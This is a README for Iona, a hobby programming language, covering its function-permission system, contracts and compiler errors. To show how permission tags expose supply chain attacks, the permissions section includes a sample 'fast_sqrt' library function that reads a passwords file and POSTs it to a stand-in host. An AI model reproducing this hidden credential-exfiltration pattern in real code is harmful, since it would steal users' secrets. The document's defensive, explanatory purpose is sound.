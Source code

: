 # Iona Programming Language

Iona is a hobby programming language to research advanced programming language features. It is a work in progress, and is not currently usable.

Iona is somewhere between a functional and an imperative paradigm (like Rust).

### Current Status

A(n incomplete) list of things done and things that need doing.

**Top level**

Bottom line
- ❌ Ready for personal use and experimentation
- ❌ Ready for professional or production use

Major milestones
- ✅ Functions
- ❌ Container types (list, vec, etc.)
- ❌ Custom types (structs, enums, etc.)
- ❌ Tests (testing within Iona programs, not testing of the compiler)

**Internals**

- ✅ Lexing
- ✅ First-pass parsing (a fixed set of grammars)
- ❌ Expression parsing
- ✅ Post-parsing processing: scope computation
- ✅ Post-parsing processing: function declaration
- ❌ Static analysis: function requirements 
- ❌ Static analysis: type checking
- ✅ Code generation: function declarations
- ❌ Code generation: function bodies/execution logic
- ❌ Code generation: custom and container types

## Language Features

### Function Permissions

Supply chain attacks are a growing concern for software engineers. Who knows what that `sqrt` function you downloaded from NPM really does? Iona mandates that certain classes of side effect (like file or network I/O) are tagged, which allows the compiler to warn you about any hidden crypto-mining in your libraries. 

Permissions look like this:

```
import read_file write_file from std.files

fn copy_to :: old_filepath str -> new_filepath str {
    #Properties :: Export
    #Permissions :: ReadFile WriteFile
    let data :: str = read_file old_filepath
    write_file data new_filepath
}
```

Now suppose that you tried to write this function for a library:

```
import read_file write_file from std.files
import request from std.networking
import sqrt from std.math

fn fast_sqrt :: input float -> float {
    #Properties :: Export
    let passwords :: list[str] = read_file "~./etc/passwords.txt"
    request "POST" "http://the-dark-net.fake" passwords
    return sqrt input
}
```

This wouldn't compile -- it doesn't have the necessary permissions. So you add them. 

```
import read_file write_file from std.files
import request from std.networking
import sqrt from std.math

fn fast_sqrt :: input float -> float {
    #Properties :: Export
    #Permissions :: ReadFile WriteNetwork
    let passwords = read_file "~./etc/passwords.txt"
    request "POST" "http://the-dark-net.fake" passwords
    return sqrt input
}
```

It compiles, great! You upload it and wait. An unsuspecting user imports your library and tries to write this code: 

```
import fast_sqrt from sketchy_library

fn main -> Void {
    let data = [1.0, 4.0, 9.0]
    map fast_sqrt data
}
```

They'll get a compiler error: `fast_sqrt` requires `ReadFile` and `WriteNetwork` but `main` doesn't have these. The user can now investigate why a math function would need those permissions!

### Contracts

Iona supports contracts: runtime checks to prevent a program from entering an invalid state. There are three types of supported contract:

1. Preconditions: checks before a function is executed
2. Postconditions: checks on the result of a function, before it's returned
3. Invariants: checks during function execution

The goal of contracts is to try and catch potential runtime errors at compile time. Suppose you have a division function `fn div :: numerator -> denominator -> quotient`. You could always manually check in the body that `denominator != 0`, but if you make it a contract the compiler can warn you ahead of time about runtime problems based on the inputs you provide. For instance, when composing functions we can check that the post conditions of the inner function are at least as strict as the pre conditions of outer function.

At least with pre- and post- conditions this is the same idea as [refinement types](https://en.wikipedia.org/wiki/Refinement_type), like Liquid Haskell.

```
// Function with a (precondition) contract
// If a contract does not evaluate to True, it errors (think of a contract like a "whitelist" of allowed inputs)
fn div :: a int -> b int -> int {
    #Properties :: Pure Export
    #In :: b != 0 -> "b must not be 0"
    return a / b
}
```

## Compiler Features

### Good Compiler Errors

They're not quite Rust quality (yet), but the compiler tries to help as much as it can.

Example (real output is colored, tedious to show in Markdown):

```sh
$ cargo run ./example-test-file.iona

Finished compiling in 186.36µs
error: issue during parsing on line 4: argument 'a' has no type information.
   3 | // Adds two numbers together
   4 | fn add :: a -> b int -> int {
   5 |     return a + b
 hint: add a type for this argument
 ```